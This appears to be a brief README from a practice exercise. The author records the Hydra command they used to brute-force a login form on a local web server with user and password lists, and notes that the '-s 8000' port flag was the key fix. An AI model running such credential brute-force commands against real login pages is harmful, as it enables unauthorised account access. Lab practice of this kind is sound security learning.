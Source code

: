 # Hydra Attack

### I used following command to attack the webpage: 
hydra -L user.txt -P password.txt 127.0.0.1 -s 8000 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect".
There is that one part, that made it possible for me to do it and it was: -s 8000.
I was using first 127.0.0.1:8000, but it did not work for me.
